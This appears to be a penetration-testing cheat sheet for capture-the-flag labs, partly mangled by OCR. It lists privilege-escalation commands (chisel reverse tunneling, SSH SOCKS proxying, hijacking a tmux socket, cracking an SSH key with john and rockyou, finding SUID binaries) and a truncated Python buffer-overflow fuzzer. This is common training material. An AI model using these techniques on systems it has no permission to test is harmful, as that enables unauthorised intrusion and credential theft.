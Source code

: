 - Run the suid binary and gain root


## Privilege Escalation

1. Port-Forwarding or SSH Tunneling

 a. ./chisel client 10.10.14.21:8080 R:631:127.0.0.1:631 -- target machine

    ./chisel server --reverse -- host machine
    
 b. ssh user@ip -D 1080 -- forward all traffics on localhost port 1080

    edit /etc/proxychains.conf, add SOCKS 127.0.0.1 1080 

    ssh user@ip -L xxxx.127.0.0.1:xxxx 

    proxychains <command>

 c. 

 2. Attach tmux session

  /usr/bin/tmux -S /.devs/dev_sess

 3. Decrypt id_rsa key with password

   /usr/share/john/ssh2john.py id_rsa.encrypted > id_rsa_ssh2john

   john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_ssh2john

   openssl rsa -in hype_key_encrypted -out hype_key_decrypted

 4. Finding SUID binaries

   find / -perm -4000 2>/dev/null

## Buffer Overflow - Windows

1. Set working folder for mona.

**!mona config -set workingfolder c:\mona\%p**
  
2. Fuzz number of bytes until application crashed.

import socket, time, sys

ip = ""
port = 
timeout = 5

buffer = [] 
counter = 100
while len(buffer) < 30:
    buffer.append(b"A" * counter)
    counter += 100

for string in buffer:
   try:
      s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
      s.settimeout(timeout)
      connect = s.connect((ip, port))
      s.recv(1024)
      print("Fuzzing with %s bytes" % len(string))
      s.send(b"OVERFLOW1 " + string + b"\r\n")
      s.recv(1024)
      s.close()

